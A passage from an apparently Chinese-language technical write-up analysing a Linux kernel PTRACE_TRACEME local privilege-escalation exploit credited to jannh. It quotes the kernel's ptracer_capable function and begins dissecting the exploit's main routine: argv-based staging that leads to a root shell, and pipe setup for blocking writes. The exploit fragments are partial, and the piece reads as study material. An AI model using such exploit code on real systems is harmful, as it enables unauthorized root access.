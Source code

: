 
**ptracer_capable 函数**

```
// task 为 ptracee 的 task_struct
bool ptracer_capable(struct task_struct *tsk, struct user_namespace *ns)
`{`
    int ret = 0;  /* An absent tracer adds no restrictions */
    const struct cred *cred;

    rcu_read_lock();
    // 获取 ptracer_cred 
    cred = rcu_dereference(tsk-&gt;ptracer_cred);
    if (cred)
    // 检查时否符合
        ret = security_capable(cred, ns, CAP_SYS_PTRACE,
                       CAP_OPT_NOAUDIT);
    rcu_read_unlock();
    return (ret == 0);
`}`
```

这里获取了ptracee 的·`ptracer_cred` ，调用 `PTRACE_TRACEME` 的时候保存的可以是 suid 程序的 cred, 也就是 root 权限，后续会使用这个cred检查是否有trace的权限。



## exp 分析

下面我们分析 jannh 提供的exp， 笔者在测试的过程中方便起见对一些代码做了精简。<br>[jannh 提供的exp](https://bugs.chromium.org/p/project-zero/issues/attachment?aid=401217&amp;signed_aid=LRTMgsnBq6HL0kC6Bd93SQ==)

测试环境在 ubuntu 18.04.1 下

可以下载 jannh 的 exp 来做测试，需要自己查找helper 的路径<br>
笔者测试时编写的 exp 已经贴在了下面，接下来我们将分析里面的实现逻辑

### **main 函数(task A) 创建**

首先看 main 函数，一开始 是 argv[0] 的两个比较，暂时不用管它，后面会使用到。

```
if(strcmp(argv[0],"stage2")==0)`{`
        return middle_stage2();
    `}`
    if(strcmp(argv[0],"stage3")==0)`{`
        return spawn_shell();
    `}`
```

接着创建了一个管道，用 fcntl 设置了管道的 buffer 长度，并向管道写东西<br>
这里是为了方便后面的利用，下一次写 `block_pipe[1]` 的时候就会阻塞住

```
// 下一次 写(block_pipe[1] 会  block 住
    pipe2(block_pipe,O_CLOEXEC|O_DIRECT);
    fcntl(block_pipe[0],F_SETPIPE_SZ,0x1000);
    char dummy=0;
    write(block_pipe[1], &amp;dummy, 1);
```
